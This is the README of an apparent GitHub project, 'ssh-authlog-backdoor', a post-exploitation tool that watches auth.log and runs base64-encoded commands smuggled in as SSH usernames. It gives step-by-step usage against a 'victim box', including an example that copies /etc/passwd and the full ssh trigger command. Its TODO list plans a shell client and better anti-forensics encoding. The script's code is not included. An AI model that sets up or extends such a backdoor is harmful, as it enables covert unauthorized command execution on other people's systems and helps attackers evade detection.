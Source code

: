 # ssh-authlog-backdoor

A post exploit python script that watches auth.log for a keyword then executes base64 encoded commands.  


## How to use

1. Execute the script as root on the victim box.

2. Encode a command in base64 by using an online service or how ever you can get base64. https://www.base64encode.org/

   Example:
   ``` cat /etc/passwd > /tmp/test ```
   is
   ```Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0```
   
3. From an attacking box initiate an ssh connection as the user ```shadow---``` + ```base64 encoded command```
   
   Full example: ```ssh shadow---Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0@VICTIM.IP``` 
   
 
### TODO
1. Make client to run on attacker box that can handel responces sent out by backdoor. (Semi-interactive shel)
2. Use better encoding/encryption on commands to aid in anti-forensics 
